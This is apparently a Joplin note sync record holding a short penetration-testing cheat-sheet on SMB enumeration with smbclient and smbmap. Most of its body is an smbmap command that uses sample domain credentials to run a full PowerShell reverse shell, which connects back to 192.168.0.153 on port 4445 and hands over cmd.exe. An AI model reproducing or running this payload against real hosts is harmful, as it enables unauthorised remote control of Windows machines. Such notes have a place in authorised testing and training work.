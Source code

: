 id: 7592101de9c5428eb52b3f6487c642cf
parent_id: 
item_type: 1
item_id: 597f35ab651443a59e302f043352a412
item_updated_time: 1642320925835
title_diff: "[{\"diffs\":[[1,\"Smbclient & smbMap\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":18}]"
body_diff: "[{\"diffs\":[[1,\"<ins>Smbclient</ins>\\\n\\\nCheck for anonymous login enabled: echo exit | smbclient -L \\\\[ip\\\\]\\\n\\\n> smbclient -L 192.168.24.24\\\n\\\n<ins>SmbMap</ins>\\\n\\\nCheck which permissions we have in those shares\\\n\\\n> Smbmap -u &lt;user&gt; -H &lt;IP&gt;\\\n\\\nMake sure to check if HTTP port available; Else putting the domain does not work. Have to only use 'localhost'\\\n\\\n![93b6b241a8577baef7dafaca2c59fe1f.png](:/0c411b4305c44c48a50cc64aa0e81e00)\\\n\\\nTo obtain a shell in the target\\\n\\\n```bash\\\nsmbmap -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command \\\"function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=\\\"\\\"\\\"\\\"192.168.0.153\\\"\\\"\\\"\\\"; $port=\\\"\\\"\\\"\\\"4445\\\"\\\"\\\"\\\";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize ;$p=New-Object System.Diagnostics.Process ;$p.StartInfo.FileName=\\\"\\\"\\\"\\\"cmd.exe\\\"\\\"\\\"\\\" ;$p.StartInfo.RedirectStandardInput=1 ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0 ;$p.Start() ;$is=$p.StandardInput ;$os=$p.StandardOutput ;Start-Sleep 1 ;$e=new-object System.Text.AsciiEncoding ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length) ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}} if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else { $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out=\\\"\\\"\\\"\\\" \\\"\\\"\\\"\\\"}} $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};\\\"\\\n```\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1870}]"
metadata_diff: {"new":{"id":"597f35ab651443a59e302f043352a412","parent_id":"2e2257054f9c4980b2f1872f1d220424","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-16T08:15:29.283Z
created_time: 2022-01-16T08:15:29.283Z
type_: 13